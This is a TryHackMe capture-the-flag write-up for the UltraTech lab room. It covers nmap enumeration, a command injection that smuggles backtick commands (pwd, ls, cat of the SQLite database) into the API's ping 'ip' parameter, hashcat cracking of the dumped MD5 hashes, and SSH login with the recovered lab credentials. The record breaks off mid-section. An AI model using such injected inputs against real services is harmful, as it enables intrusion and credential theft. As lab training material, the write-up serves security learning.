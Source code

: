 <h1> TryHackMe UltraTech writeup - Medium </h1>

The basics of pentration testing, enumeration, privlilege escaltion, and webapp testing

## Part 1 - Enumeration

The first thing im going to do is run an nmap scan on the target IP address (10.10.208.199).

<p><span style="color:green"><em>
Starting Nmap 7.60 ( https://nmap.org ) at 2024-08-27 18:11 BST
Nmap scan report for ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
Host is up (0.00089s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
8081/tcp open  blackice-icecap
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.80 seconds
</em></span></p>



### Which software is using the port 8081?

- To find this I did an nmap scan looking for the service and version (-sV) specificly on port 8081.
    - `nmap -sV 10.10.208.199`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that the software running is Node.js.

### Which other Non-standard port is used?
- To find this, I ran an nmap scan that scans all ports rather than just the top 1000
    - `nmap 10.10.208.199 -p-`

<p><span style="color:green"><em>
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
8081/tcp  open  blackice-icecap
31331/tcp open  unknown
</em></span></p>

From this we can see that 31331 is the other non standard port running.

### Which software using this port?
- To find this, I ran an nmap scan that looks for the service and version (-sV) on port 31331.
    - `nmap -sV 10.10.208.199 -p 31331`

<p><span style="color:green"><em>
PORT      STATE SERVICE VERSION
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
</em></span></p>

From this we can see that Apache is the software using this port.

### Which GNU/Linux distribution seems to be used?
- To find this we can use the nmap scan from above.
- We can see that Ubuntu is the GNU/Linux distribution being used.

### The software using the port 8081 is a RESTapi, how many of its routes are used by the web application?
- To find this we can use an nmap scan that goes into more detail, -A.
    - `nmap -A 10.10.208.199 -p 8081`

<p><span style="color:green"><em>
PORT     STATE SERVICE VERSION
8081/tcp open  http    Node.js Express framework
|_http-cors: HEAD GET POST PUT DELETE PATCH
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 02:3C:7E:9D:8D:85 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.13 (97%), Linux 3.8 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%),
Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%),
Linux 3.10 (92%), Linux 3.19 (92%), Linux 3.2 - 4.8 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.56 ms ip-10-10-208-199.eu-west-1.compute.internal (10.10.208.199)
</em></span></p>

From this we can see there are 2 Rest api's; _http-cors, and _http-title. 

## Part 2 - Explotation

### There is a database lying around, what is its filename?
- To start off, I opened my web browser and went to http://10.10.208.199:8081. The only thing to pop up is
  UltraTech API v0.1.3, which might be vulnerable. Im going to look at the other port before attempting to exploit this one.
- When looking at http://10.10.208.199:31331, we find a somewhat sophisticated looking webpage.
  Upon futher inspection on the Aboutus page we find a list of potential users.

<p><span style="color:green"><em>
John McFamicom | r00t
Francois LeMytho | P4c0
Alvaro Squalo | Sq4l
</em></span></p>

-Continuing on, we find a contact page that throws a 404 error. it also shows that apache version 2.4.29 which might come in handy if that version is vulnerable. 
- The next thing I look at is the robots.txt file, this leads me to /utech_sitemap.txt. Continuing to follow this path leads us to find.

<p><span style="color:green"><em>
/
/index.html
/what.html
/partners.html
</em></span></p>

- /partners.html seems interesting as it wasnt on the main page. Upon further invesigation we find that this is a login page. Looking into the .html code we find a custom written api file "api.js":

```.js
(function() {
    console.warn('Debugging ::');

    function getAPIURL() {
	return `${window.location.hostname}:8081`
    }
    
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error');
	}
    }
    checkAPIStatus()
    const interval = setInterval(checkAPIStatus, 10000);
    const form = document.querySelector('form')
    form.action = `http://${getAPIURL()}/auth`;
    
})();
```

- Im relativly new to api's but by analyzing the code we see that the function getAPIURL returns the domain name of the web host port 8081. Then then function checkAPIStatus goes to the url http://10.10.90.74:8081/ping?ip=10.10.90.74 . Which might be worth looking into before moving forward.
- After going to that web address, we can see that it returns the ping command. This looks like a form of remote code execution. Returned ping:
<p><span style="color:green"><em>
PING 10.10.90.74 (10.10.90.74) 56(84) bytes of data. 64 bytes from 10.10.90.74: icmp_seq=1 ttl=64 time=0.037 ms --- 10.10.90.74 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.037/0.037/0.037/0.000 ms
</em></span></p>
- The first thing I do is try to find out where I am in the system, I do this by running the command pwd
	- http://10.10.90.74:8081/ping?ip=`pwd`, this is the output:
<p><span style="color:green"><em>
ping: /home/www/api: Temporary failure in name resolution 
</em></span></p>
- We can see that our wokring directory is /home/www/api
- Now we can start looking around and trying to find the database filename. 
- The next command im going to run is a simple ls
	- http://10.10.90.74:8081/ping?ip=`ls`, this is the output:
<p><span style="color:green"><em>
ping: utech.db.sqlite: Name or service not known 
</em><</span></p>
- Great! the name of the database is utech.db.sqlite

### What is the first user's password hash?
- To find the first user's password hash I belive we should try to look in the ultratech database file. To do this I will use the same method I did to find the database.
	- http://10.10.90.74:8081/ping?ip=`cat utech.db.sqlite`
 <p><span style="color:green"><em>
ping: ) \ufffd\ufffd\ufffd(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded
 </em></span></p>   

From this we can see that the username and password hash.

<p><span style="color:green"><em>
r00t 	: f357a0c52799563c7c7b76c1e7543a32
admin	: 0d0ea5111e3c1def594c1684e3b9be84
</em></span></p>

### what is the password associated with this hash?

- To find the hash values, I will use hashcat.
	- hashcat -m 0 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt
<p><span style="color:green"><em>
r00t	: n100906
admin	: mrsheafy
</em></span></p>

## Part 3 - Gathering Intel 

### what are the first 9 characters of the root user's private SSH key?

- The first thing im going to do is log into the ssh server using the user:pass we found in the last section.
- The admin account doesnt work for the ssh server but it might for the :31331/partners.html login page. It brings us to message from lp1 to please look at the servers configuration files.
- r00t is able to log into the ssh server.
-   

  

